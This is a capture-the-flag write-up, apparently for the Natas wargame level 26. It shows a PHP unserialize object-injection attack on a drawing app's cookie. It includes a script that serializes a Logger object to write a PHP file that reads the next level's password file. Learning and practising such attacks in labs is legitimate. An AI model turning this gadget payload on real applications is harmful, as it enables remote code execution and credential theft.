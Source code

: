 Here, we got some kind of line drawing application. If you check the source, look at all those *unserialize()* functions. It's definitly an exploit based on serialization. But where ? Well, if you take a closer look, you can see that the *Logger* class exists but is not used anywhere and we control the **drawing** cookie.

First, let's try to unserialize the *drawing* cookie :

```php
<?php

$drawing = unserialize(base64_decode("YToxOntpOjA7YTo0OntzOjI6IngxIjtzOjM6IjEyMyI7czoyOiJ5MSI7czozOiIzMjEiO3M6MjoieDIiO3M6MjoiNTAiO3M6MjoieTIiO3M6MjoiNjAiO319"));
print_r($drawing);

?>
```

Here is the result :

```bash
$ php unserial.php
Array
(
    [0] => Array
        (
            [x1] => 123
            [y1] => 321
            [x2] => 50
            [y2] => 60
        )

)
```
As you can see, it represents the unserialized object of our drawing. Now, let's try to serialized a custom instance of the **Logger** class to read the password. I used the  **img** to write the password as it is readable/writable.

```php
<?php
class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
      
        function __construct(){
            $this->initMsg = "foobar\n";
            $this->exitMsg = "<?php echo file_get_contents('/etc/natas_webpass/natas27');?>";
            $this->logFile = "img/ax.php";
        }                       
                     
    }
$logger = new Logger();
echo base64_encode(serialize($logger));
?>
```
